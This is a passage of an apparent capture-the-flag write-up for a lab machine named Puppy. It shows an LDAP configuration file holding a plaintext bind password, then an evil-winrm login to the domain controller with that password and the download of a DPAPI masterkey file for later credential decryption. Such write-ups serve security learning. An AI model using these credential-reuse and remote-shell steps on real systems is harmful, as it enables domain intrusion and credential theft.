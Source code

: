 ```
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

### 📂 Extracting Credentials via DPAPI

<p class="indent-paragraph">
Using the credentials extracted from the backup, we authenticated to the domain controller via<code>evil-winrm</code> as<code>steph.cooper</code><span class="codefix">.</span> Upon accessing the user's<code>Documents</code> folder, we identified a file named<code>masterkey</code><span class="codefix">.</span> This file is likely related to the Data Protection API (DPAPI) and may contain encrypted keys used to protect other credentials stored on the system. Recognizing its forensic value, we promptly downloaded it for local analysis. Such artifacts are pivotal in later stages when attempting to decrypt password blobs or secure system data.
</p>

```
~$ evil-winrm -i dc.puppy.htb -u steph.cooper -p ChefSteph2025!
                                        
Evil-WinRM shell v3.7                                        
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> 
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> dir

    Directory: C:\Users\steph.cooper\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   7:40 AM            740 masterkey

*Evil-WinRM* PS C:\Users\steph.cooper\Documents> download masterkey
                                        
Info: Downloading C:\Users\steph.cooper\Documents\masterkey to masterkey
```
